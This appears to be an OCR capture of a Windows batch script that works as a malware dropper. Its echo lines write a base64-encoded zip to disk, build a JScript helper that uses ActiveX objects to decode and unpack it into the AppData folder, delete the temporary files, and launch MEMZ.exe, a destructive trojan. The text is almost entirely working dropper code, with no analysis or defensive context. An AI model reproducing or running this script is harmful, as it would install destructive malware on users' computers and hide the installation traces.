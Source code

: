 echo kM+XtVXNdfRfHeh3j9I3kNlead0T30vmu+iHjNlSMqNDADoyF7j4N5CUPuUjt7PvuOMORyfd4/Qb>>x
echo znvI5FzpbmiqwCqv4oySj1V8jof01SP9d60OZhInf+FoJWQXHRf/pnLXevmTy/zOoJzObpY/nZS+>>x
echo pczmDBIKiEHFJE6Sobfi6rrfRQTPxhrHp+C+CS0+BpxnCu4J4NJZWdaJstAs6+fMFFwvcHuB27Tq>>x
echo Ku47wGmgs1NTxh0BbpAlX1r+8W+KMo+Jf1O0KJGdWANCl9nhoEGPkGpVnYBgYPZI38LWyK019IeT>>x
echo iKoRO5YOpgOHFZhZFQ4EEDkncHMVll7XZOtpUiXdkpudNAsn5D+mzJBxtcD+jLF5eN5PFqvbaB68>>x
echo BsGFNJEqj0Aji8+BllntwaWgy+uHzJUT79hpFZDN7qhzdQbsgT70pdK11ONI90hUGuxeHqPulrgK>>x
echo Xi+I1eHS1EYG43LRQWZyF2OjGnAJ4N5X5bFTHbwwIbkgeJBX+I2FNp/dH3QKCIn3q+LrMxaucQWC>>x
echo oTay7yqmAbsbPH+uXOsROieU+Fy8JSmRNEgr8PA+jEPq2mCpMxbmS0G2nUpaL5+QbeSyspn+qOCB>>x
echo GHEcIT8h1S4k/7jNTA4j/0WozttcPlzJg5ZecoBU891yk4qFEXXKJtwu6UVPWp6F7iNvfIXyQIra>>x
echo TrnLKUY9j6ytC3pIUcb5VAoY8TslNBVnVCMIWy29IK5q8Tnx/jk0+QZG+hzxuTT3wVnfRrZJ2Fof>>x
echo MgdylFQH7D21XTSJ+Q7lLBOoriI8pJV+IsD7gas9TbhKkrQp8rSRb1F54E9BIWAVIC0b96+J9iLa>>x
echo ruaDW0OCXyZCyJ+JxRf2VjldHkdcZEIySRUyS2q6uPjkAwX1LCpdG2mxWZomLDSbVLpClZ4QtbAt>>x
echo FOBhCKm1tro2PuSSYsoeaRa20hMui8hHp9ScPD+D5AFwEbaG/ZOoVrsnDJP+FLbp84fMXbeHXQG+>>x
echo Cjc72atekvFreV8TfJleMc3VrWbrBGtyo8JGk2CLnD2ZycLPtdtIApmyDZoFc2DLNlBd8LlR1Ka2>>x
echo GkvdhFNqiBXXXpsQ9jngNW21DfX1En42iccNLLPWC4tM7DiMstogVH51Xd2Xh+DrLm8uNxGt3kRM>>x
echo AD/gKcAYgM01kQ2AQcAIIDXPRCoAfsA+wCigFMd7L+AIYBxgLUAbcAhwBpCOwLoBMAgYpkHWgDmA>>x
echo CGBpIfCAxwDDgDcB9EvUM4AYYAwwDmCMkA+QDmABuYAiwMUS0FthIroV8oFSCpwHMAjYB3gKcBKQ>>x
echo jdSjFNAMuBMwCNgHOAw4BhgFaIpBG7ABsA9wCPA8IAZgwGcpoBdwBHAZKQ4Xxt5Ok+sf3IC5DYQc>>x
echo nIP1vwJ9xvHL58j47nTImIOzEm3TAULOYvzm9wk5jva+cjLxv0v+HykKko5nuvy/XT6Hp3JyX4Kf>>x
echo hhynhlzNU/6+VKzu9XpY3PGCuEutyjHkczm4DnQJDlwPVuW0NK/JK82h2b/PYfcIPn5VTh8fzFl9>>x
echo 0/SkCkRR3EBxMQEBX3BVDm635cEuJ++1B/MmfyajPy6V24Pe/G2GHFxEfK5u3C1ap3IDKZatCAUQ>>x
echo G2p93UKc2sJrUDMulOZhZpBexHFqxdvABPjb6XWRd1wNM5OdU7vl3Q5B6nDH9bAe+lyVQ7sRccwO>>x
echo r8uH8yJgDwmBHDbsMnfRbb4qp9vuCfI5bMFVfgVfzbCi4HPiVRRMrpNqsGBChWh8pcmRgG6A3WZx>>x
echo uVwpZ+Ju4TZz3ZyXC3NPcf/ODXNHufe4jziFYZphpiHDsNxgMJQZTAbe4Df0G35h+I3hPcNFw2eG>>x
echo tMIVhdWF6wpbCjcVbi0MFe4qvKfwXwofLTxa+Hbhfyv8oPBSYZoxw5hnLDdWG9cZNxm7jT7jncZv>>x
echo Gx8z/tL4ivG08V3jZ0ZlUVKRrii9KKsov6ikyFS0vqi1qKMoUHR30f1F3yt6oujVojNFHxbpim8o>>x
echo zizOLq4rbireUNxR/I3i14rfKf7P4ovFaSXzS4pLzCVbSrwlwZK+kqGSb5fsK3my5HDJcyUnS86U>>x
echo fFjiXhFaMbAiuuKfVvzzit+u+GjF5RXTSvNLS0otpetK15e2lfpL95Q+UPr90qdKXy49VfpeaULZ>>x
echo 7DK2LL+stqyzrL9ssOyBskfK/rXsp2XPlA2XHS37sExdvrC8sfyWck95oHx7+UD53vIfl6eunLeS>>x
echo XblkJc31D1P9cgyn4bScjkvl0rlMjuWyuaXQNccVQd8V0Hg1V8PVcVaumdvAbYL2HZyT83B+LsT1>>x
echo cndyEW4XN8jdw+3l7uP2cQe4g9xj3OPcIVjnMHeEex4WOsa9zo1wb3InuVPcKHeGi3HnuDHuIjfO>>x
echo XeaIgTFoDFqDzpBqSDdkGlhDtmGpIdfAGRCHDTUGq2GDYbPBCWv2Gv4XwsY/yv+35X8CUEsBAhQA>>x
echo FAAAAAgAdXfqSJDoh9lzIQAAADoAAAgAAAAAAAAAAAAAAP+BAAAAAE1FTVouZXhlUEsFBgAAAAAB>>x
echo AAEANgAAAJkhAAAAAA==>>x

echo f=new ActiveXObject(^"Scripting.FileSystemObject^");i=f.getFile(^"x^").openAsTextStream();>x.js
echo x=new ActiveXObject(^"MSXml2.DOMDocument^").createElement(^"Base64Data^");x.dataType=^"bin.base64^";>>x.js
echo x.text=i.readAll();o=new ActiveXObject(^"ADODB.Stream^");o.type=1;o.open();o.write(x.nodeTypedValue);>>x.js
echo z=f.getAbsolutePathName(^"z.zip^");o.saveToFile(z);s=new ActiveXObject(^"Shell.Application^");>>x.js
echo s.namespace(26).copyHere(s.namespace(z).items());o.close();i.close();>>x.js

set v="%appdata%\MEMZ.exe"
del %v% >NUL 2>NUL
cscript x.js >NUL 2>NUL
del x.js >NUL 2>NUL
del z.zip >NUL 2>NUL
del x >NUL 2>NUL
start "" %v%
